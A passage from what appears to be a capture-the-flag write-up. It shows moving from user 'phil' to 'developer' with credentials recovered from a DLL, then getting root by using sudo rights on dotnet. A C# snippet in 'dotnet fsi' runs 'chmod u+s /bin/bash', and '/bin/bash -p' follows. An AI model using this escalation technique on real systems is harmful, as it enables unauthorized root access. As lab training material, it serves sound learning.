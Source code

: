 Then we can SSH in as `phil`.

<figure><img src="../../../.gitbook/assets/image (3) (2) (2) (2) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Developer Shell

With the credentials we found within the DLL file, we can `su` to become the `developer` user.

<figure><img src="../../../.gitbook/assets/image (10) (1) (5) (2).png" alt=""><figcaption></figcaption></figure>

### Sudo Dotnet

As the `developer` user, we can run `/usr/bin/dotnet` as the `root` user.

<figure><img src="../../../.gitbook/assets/image (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Since we can run this, we can simply run `dotnet fsi`, which would open up an interactive interpreter we can use to make `/bin/bash` a SUID binary.

<pre class="language-csharp"><code class="lang-csharp"><strong>using System.Diagnostics;
</strong>string command = "chmod u+s /bin/bash";
ProcessStartInfo psi = new ProcessStartInfo("/bin/bash", $"-c \"{command}\"");
psi.UseShellExecute = false;
psi.RedirectStandardOutput = true;

Process process = new Process();
process.StartInfo = psi;
process.Start();
</code></pre>

Then, either in the same shell or another, we can run `/bin/bash -p` to become root.

<figure><img src="../../../.gitbook/assets/image (8) (1) (3) (2).png" alt=""><figcaption></figcaption></figure>

Rooted!
